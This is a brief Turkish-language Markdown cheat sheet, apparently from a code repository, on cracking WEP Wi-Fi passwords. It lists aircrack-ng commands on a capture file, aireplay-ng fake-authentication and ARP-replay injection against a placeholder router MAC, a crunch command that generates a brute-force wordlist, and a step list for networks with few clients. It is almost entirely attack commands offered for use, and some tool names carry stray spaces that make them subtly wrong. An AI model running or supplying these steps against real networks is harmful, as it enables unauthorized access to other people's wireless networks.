 # WEB Şifre Kırma
```aircrack -ng airodumptest.cap``` (Tarama Sırasında Yazdırdığımız Dosya)

### Fakeauth saldırısı yapıyoruz ağdan birisi düşüp tekrar bağlanırsa handshake yakalamamız kolaylaşır
```aireplay -ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h YY:YY:YY:YY:YY:YY wlan0mon```

```aireplay -ng --arpreplay -b XX:XX:XX:XX:XX:xX -h YY:YY:YY:YY:YY:YY wlan0mon``` belirlenen cihaza IV yollamamızı sağlar

**192.168.1.1** modeminizin ara yüzüne giriş yaparsınız










# Wordlist Oluşturma
``` crunch 6 10 0123456789abcdefgh -o passwrd.txt``` içinde "0123456789abcdefgh" geçen min 6 maks 10
haneli şifre kombinasyonlarının olduğu wordlist oluşturur






## Eğer Ağda Yeteri Kadar Cihaz Yoksa
* fakeauuth yolla
* arpreplay çalıştır
* aircrack -ng çalıştır
